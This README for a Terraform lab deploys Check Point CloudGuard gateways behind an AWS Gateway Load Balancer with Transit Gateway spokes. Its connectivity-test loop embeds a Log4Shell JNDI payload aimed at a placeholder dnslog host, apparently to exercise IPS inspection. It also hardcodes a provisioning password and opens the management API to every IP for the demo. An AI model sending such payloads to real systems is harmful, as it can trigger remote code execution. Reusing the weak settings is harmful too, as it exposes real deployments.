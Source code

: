 # AWS lab with App spokes, TGW and CHKP VPC with CloudGuard Network Security behind GWLB

### Check Point Management SSH KEY pair

We are using existing AWS [SSH key pair](https://eu-west-1.console.aws.amazon.com/ec2/home?region=eu-west-1#KeyPairs:)

Please make sure SSH key pair exists and is referenced in `main.tf` under `cpman` module as `cpman_ssh_keypair` input variable. Default key pair name is `cpman`.

### Deploy with Terraform

```shell
# working folder
cd /workspaces/tf-playground/50-aws-tgw-chkp-vpc

# alias terraform
alias tf=terraform

# bring dependencies - providers, modules, ...
tf init

# bring credentials - e.g. export env vars: AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_SESSION_TOKEN

# review the code

# do credentials work?
tf plan -target module.env

# step by step deployment (to follow what was build in both code and AWS Console)

# network environment
tf apply -auto-approve -target module.env

# workloads in spokes accessible using SSM
#   used to initiate eggress and E-W traffic
tf apply -auto-approve -target module.instances

# Check Point Management in Inspection VPC
#   shared VPC with securure Internet access and E-W inspection
tf apply -auto-approve -target module.cpman

# Check Point Security Gateways with GWLB in Inspection VPC
#   deploy CGNS behind GWLB into Security (Inspection) VPC
tf apply -auto-approve -target module.cgns

# routing setup
#    route via CGNG thanks to GWLBe
tf apply -auto-approve -target module.routes

# or full deployment - one shot
tf apply -auto-approve

# CP management console
#   lets wait in CPMAN EC2 Instance serial console until ot is ready

# IP and creds for CPMAN cli access
MGMTIP=$(tf output -raw cpman_ip)
# for local Win machine Powershell? - assuming cpman private SSH key in home .ssh subfolder
echo ssh admin@$MGMTIP -i '$env:HOMEDRIVE$env:HOMEPATH/.ssh/cpman.pem'

# === MANAGEMENT CLI ===
#   once Check Point Managemeng server is initialized => 
watch -d api status

# x-chkp-tags	management=CP-Management-gwlb-tf:template=gwlb-configuration:ip-address=private

# this is how CPMAN find instances to provide with policy and provision under Check Point Management
autoprov_cfg init AWS -mn CP-Management-gwlb-tf -tn gwlb-configuration -otp WelcomeHome1984 -po Standard -cn cpman -r eu-west-1 -iam -ver R81.20
# update template to enable IPS and Identity Awareness
autoprov_cfg set template -tn gwlb-configuration -ia -ips
# check full setup
autoprov_cfg show all

# monitor CME finding and provisioning gateways
tail -f /var/log/CPcme/cme.log


### POLICY

# will manage using Check Point API service - allow any IP access (ok, for demo, be more specific in real world)
mgmt_cli -r true set api-settings accepted-api-calls-from 'All IP addresses' --domain 'System Data'; api restart

# create dedicated api user
mgmt_cli -r true add administrator name "api" permissions-profile "read write all" authentication-method "api key"  --domain 'System Data' --format json

# add api-key - api user credential
# https://sc1.checkpoint.com/documents/latest/APIs/index.html#cli/add-api-key~v1.9.1%20
mgmt_cli -r true add api-key admin-name "api"  --domain 'System Data' --format json

# now we have following CPMAN information - take note for 51-tf-aws-policy terraform deployment
# management IP address
# manafement server API token - representing user "api"
```

### CONNECTIVITY FROM SPOKE INSTANCES

```shell
#connectivity test from spoke hosts
while true; do curl 10.11.10.11 -m1; curl 10.10.10.10 -m1; curl -s -m1 ip.iol.cz/ip/; echo; ping -c1 1.1.1.1; sleep 3; curl -s -m2 ip.iol.cz/ip/ -H 'X-Api-Version: ${jndi:ldap://xxx.dnslog.cn/a}';  done


# remove
tf destroy -auto-approve -target module.routes
tf destroy -auto-approve -target module.cgns
tf destroy -auto-approve -target module.cpman
tf destroy -auto-approve -target module.instances
tf destroy -auto-approve -target module.env

```

TODO:
- [ ] enable Management API and provision API user
 -[ ] management license?
- [ ] Gaia timezone 
- [ ] diagrams
- [ ] create SSH key with Terraform and add CPMAN login instructions
- [ ] policy made by Terraform
- [ ] E-W and Ingress traffic inspection
- [ ] TF unexpceted replacement - lifecycle / ignore_changes fine tune!


References:
* Inspired by work at https://github.com/aws-samples/aws-network-firewall-terraform/
    * Diagram https://github.com/aws-samples/aws-network-firewall-terraform/blob/main/images/anfw-terraform-sample.jpg
